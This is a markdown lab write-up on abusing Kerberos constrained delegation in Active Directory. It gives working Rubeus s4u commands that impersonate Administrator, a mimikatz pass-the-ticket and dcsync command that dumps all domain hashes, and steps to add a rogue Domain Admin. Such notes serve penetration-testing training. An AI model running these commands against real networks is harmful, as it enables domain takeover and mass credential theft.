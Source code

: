 # Constrained Delegation Abuse

⇒ So if you have compromised a **`user account`** / **`system`** on a **`machine`** that is allowed to **`delegate`** to Domain Controller's **`cifs`** / **`ldap`** service we can abuse that to own the domain controller!

- Refer to the lab creation guide: [Kerberos Constrained Delegation Lab Creation](../Lab%20Creation/Kerberos%20Constrained%20Delegation%20Lab%20Creation.md)

---

## Explaining the Attack

⇒ **msDS-AllowedToDelegateTo** :

- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.

⇒ So here user enox is **`allowedtodelegate`** to **`impersonate`** as any user to the **`SPNs`** set as show in the screenshot [ i.e **`ldap`** and **`cifs`** ]

```python
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto  -ExpandProperty msds-allowedtodelegateto
```

![Constrained%20Delegation%20Abuse/Untitled.png](Constrained%20Delegation%20Abuse/Untitled.png)

- So basically we can authenticate to **ldap** and **cifs** services ****on **VDC01** machine as any user we want.

### ⇒ **S4U** ( Service-For-User ) :

- So **`S4U`** is a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild.
- So the **`s4u2fself`** extension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos.
- The extensions **`s4u2proxy`** allows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.

[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]

---

## Performing The Attack

⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses. 

- It has s4u abuse extension which we can use to perform this attack

Tool : [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

⇒ So as we saw previously we are allowed to delegate to :

- ldap
- cifs

⇒ We will be showing how to abuse both of the services to compromise the domain controller.

- First we will start with getting rc4 hash of the user :

![Constrained%20Delegation%20Abuse/Untitled%201.png](Constrained%20Delegation%20Abuse/Untitled%201.png)

RC4: `**58A52D36C84FB7F5F1BEAB9A201DB1DD**`

### ⇒ cifs/vdc01.endark.local :

- Now we will impersonate as Administrator user and request a ticket to **`cifs`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt
```

![Constrained%20Delegation%20Abuse/Untitled%202.png](Constrained%20Delegation%20Abuse/Untitled%202.png)

![Constrained%20Delegation%20Abuse/Untitled%203.png](Constrained%20Delegation%20Abuse/Untitled%203.png)

- No winrm or mimikatz using “**`cifs`**” . So we will instead create a user and add it to domain admins group :

![Constrained%20Delegation%20Abuse/Untitled%204.png](Constrained%20Delegation%20Abuse/Untitled%204.png)

![Constrained%20Delegation%20Abuse/Untitled%205.png](Constrained%20Delegation%20Abuse/Untitled%205.png)

Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.

### ⇒ **ldap/vdc01.endark.local** :

- Impersonating as Administrator user and getting a ticket for **`ldap`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi
```

![Constrained%20Delegation%20Abuse/Untitled%206.png](Constrained%20Delegation%20Abuse/Untitled%206.png)

- Next we will just use the ticket with **mimikatz** to perform dcsync attack to dump all the hashes in the domain :

```python
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"
```

![Constrained%20Delegation%20Abuse/Untitled%207.png](Constrained%20Delegation%20Abuse/Untitled%207.png)

---

References : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) and [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation)

